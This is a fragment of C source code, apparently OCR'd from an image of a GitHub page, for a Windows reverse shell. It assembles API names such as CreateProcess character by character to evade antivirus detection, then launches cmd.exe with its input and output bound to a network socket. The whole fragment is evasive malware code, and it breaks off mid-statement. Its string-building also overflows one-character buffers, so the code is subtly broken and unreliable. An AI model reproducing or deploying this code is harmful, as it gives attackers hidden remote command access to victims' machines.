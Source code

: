 ```c
			char func7[] = "W";
			strcat(func7,"S");
			strcat(func7,"A");
			strcat(func7,"C");
			strcat(func7,"l");
			strcat(func7,"e");
			strcat(func7,"a");
			strcat(func7,"n");
			strcat(func7,"u");
			strcat(func7,"p");
			myNotWSACleanup notWSACleanup = (myNotWSACleanup) GetProcAddress(hws2_32,func7); // GetProcAddress(hws2_32,"WSACleanup");
            notWSACleanup();
        } else {
        
            char Process[] = "c";
            strcat(Process,"m");
            strcat(Process,"d");
            strcat(Process,".");
            strcat(Process,"e");
            strcat(Process,"x");
            strcat(Process,"e");
            
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
			
			char func8[] = "C";
			strcat(func8,"r");
			strcat(func8,"e");
			strcat(func8,"a");
			strcat(func8,"t");
			strcat(func8,"e");
			strcat(func8,"P");
			strcat(func8,"r");
			strcat(func8,"o");
			strcat(func8,"c");
			strcat(func8,"e");
			strcat(func8,"s");
			strcat(func8,"s");
			myNotCreateProcessA notCreateProcessA = (myNotCreateProcessA) GetProcAddress(hkernel32,func8); // GetProcAddress(hkernel32,"CreateProcess");
            notCreateProcessA(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

			char func9[] = "W";
			strcat(func9,"a");
			strcat(func9,"i");
			strcat(func9,"t");
			strcat(func9,"F");
			strcat(func9,"o");
			strcat(func9,"r");
			strcat(func9,"S");
			strcat(func9,"i");
			strcat(func9,"n");
			strcat(func9,"g");
			strcat(func9,"l");
			strcat(func9,"e");
			strcat(func9,"O");
			strcat(func9,"b");
			strcat(func9,"j");
```